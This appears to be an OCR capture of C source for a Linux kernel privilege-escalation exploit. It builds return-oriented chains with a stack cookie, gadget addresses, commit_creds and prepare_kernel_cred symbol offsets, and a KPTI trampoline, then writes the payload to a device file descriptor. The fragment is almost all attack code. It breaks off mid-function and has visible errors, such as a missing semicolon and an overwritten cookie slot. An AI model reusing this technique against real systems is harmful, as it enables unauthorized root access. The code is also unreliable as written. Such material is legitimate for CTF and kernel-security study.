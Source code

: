 ```C

void commit_creds_asm_save(){

__asm__(
        ".intel_syntax noprefix;"
        "mov tmp,rax;"
        ".att_syntax;"
);

prepare_commit_creds = ksymtab_commit_creds + tmp;

stage3();

}

void step2(){
unsigned long payload[50];
int offs=16;

// 16 is the cookie offset
payload[offs] = cookie;
payload[offs++] = 0x0; // rbx 
payload[offs++] = 0x0; // r12 
payload[offs++] = 0x0; // rbp
payload[offs++] = pop_rax_ret; // function ret 
payload[offs++] = ksymtab_commit_creds-0x10;
payload[offs++] = read_mem_pop1_ret; // 
payload[offs++] = 0x0; // rbp
payload[offs++] = kpti_trampoline; // rbp
payload[offs++] = 0x0; // rbp
payload[offs++] = 0x0; // rbp
payload[offs++] = commit_creds_asm_save; // rbp
payload[offs++] = user_cs;
payload[offs++] = user_rflags;
payload[offs++] = user_sp;
payload[offs++] = user_ss;

write(global_fd,payload,sizeof(payload));

}

void after_prepare_kernel_cred(){
    
    __asm__(
        ".intel_syntax noprefix;"
        "mov tmp , rax;"
        ".att_syntax;"
    )
    struct_commit_creds = tmp;

    stage4();
}



void stage3(){
     unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
```